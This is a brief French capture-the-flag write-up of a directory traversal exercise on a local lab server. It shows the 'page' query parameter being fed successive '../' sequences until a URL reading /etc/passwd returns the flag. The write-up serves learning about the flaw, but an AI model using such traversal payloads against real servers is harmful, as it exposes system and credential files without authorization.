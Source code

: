 # Directory Traversal

https://www.hacksplaining.com/exercises/directory-traversal

1. http://192.168.1.16/index.php?page=

On se rend compte que l'affichage de la page se base sur un paamètre de la query string

La technique du directory traversal consiste à revenir en arrière via l'URL
Si le serveur ne se protège pas de ça, potentiellement TOUT les fichiers du serveur sont accessible, enfin ça dépendra des droits sur la machine

2. http://192.168.1.16/index.php?page=../ ==> On a l'alerte "WTF ?" comme quoi il y a rien

http://192.168.1.16/index.php?page=../../ ==> On a une alerte "Wrong" ==> intéressant

Si on continue on fini par l'obtenir ! http://192.168.1.26/index.php?page=../../../../../../../etc/passwd

Malheuresement il n'affiche pas le fichier sur la page html, mais le flag pop quand même :)